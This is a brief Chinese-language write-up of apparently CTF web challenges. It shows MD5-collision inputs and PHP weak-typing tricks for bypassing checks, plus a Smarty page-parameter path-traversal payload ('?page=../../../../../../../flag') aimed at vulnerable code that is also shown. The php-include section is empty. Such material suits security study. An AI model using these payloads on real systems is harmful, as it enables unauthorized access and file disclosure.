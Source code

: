 ### Writeup

[TOC]

#### 漏洞利用

##### bypass

利用PHP弱类型比较绕过，题目要求a和b不同而md5值相同，只需要找到符合这个条件的数据即可，使用GET传递

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

is_numeric函数会检查输入是否是数字或数字字符串，只需要插入字母即可绕过，并要求passwd==123456，在弱类型比较下，123456a==123456。num使用科学计数法绕过，只需要传递1e8就会被解析为100000000，使用POST传递

```
passwd=123456a&num=1e8
```

##### php-include



##### smarty

在主要代码中未对用户输入进行过滤，即使有路径拼接，但可以使用路径穿越漏洞访问其他目录。

```php
if (isset($_GET['page']) && gettype($_GET['page']) === 'string') {
    $file_path = "file://" . getcwd() . "/pages/" . $_GET['page'];
    $smarty->display($file_path);
}
```

只需要输入以下payload即可。

```
?page=../../../../../../../flag
```

